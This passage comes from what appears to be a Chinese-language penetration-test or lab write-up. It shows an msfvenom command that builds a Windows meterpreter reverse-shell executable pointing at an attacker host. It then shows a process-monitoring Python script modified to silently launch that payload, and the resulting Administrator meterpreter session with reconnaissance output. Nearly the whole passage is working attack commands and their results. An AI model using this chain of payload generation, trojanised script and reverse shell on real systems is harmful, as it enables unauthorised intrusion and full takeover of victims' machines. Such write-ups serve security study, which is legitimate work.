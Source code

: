 ```
root@kali:/var/www/html# msfvenom -p windows/x64/meterpreter/reverse_tcp LPORT=4444 LHOST=10.0.0.5 -f exe > s.exe
```
修改python脚本如下：
```
import win32com.client
import datetime
from subprocess import call

def logging(context):
    now = datetime.datetime.now().strftime("%Y-%m-%d %H:%M:%S")
    f = open('c:\share\logs.txt', 'a')
    f.write('{}: {}'.format(now,context))
    f.close()

def process_monitor():
    wmi=win32com.client.GetObject('winmgmts:')
    for p in wmi.InstancesOf('win32_process'):
        logging("{}{}{}\n".format(p.Name, p.Properties_('ProcessId'), \
            int(p.Properties_('UserModeTime').Value)+int(p.Properties_('KernelModeTime').Value)))

if __name__ == "__main__":
    process_monitor()
    call(["c:\share\s.exe"])
```
几分钟后，我们顺利地获得了一个meterpreter session了。
```
msf exploit(handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information                      Connection
  --  ----  ----                     -----------                      ----------
  2         meterpreter x64/windows  MONITOR\Administrator @ MONITOR  10.0.0.5:4444 -> 10.0.0.9:49536 (10.0.0.9)

meterpreter > getuid
Server username: MONITOR\Administrator
meterpreter > sysinfo
Computer        : MONITOR
OS              : Windows 2008 R2 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > ipconfig

Interface  1
============
Name         : Software Loopback Interface 1
Hardware MAC : 00:00:00:00:00:00
MTU          : 4294967295
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0
IPv6 Address : ::1
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff


Interface 11
============
Name         : Microsoft Teredo Tunneling Adapter
Hardware MAC : 00:00:00:00:00:00
```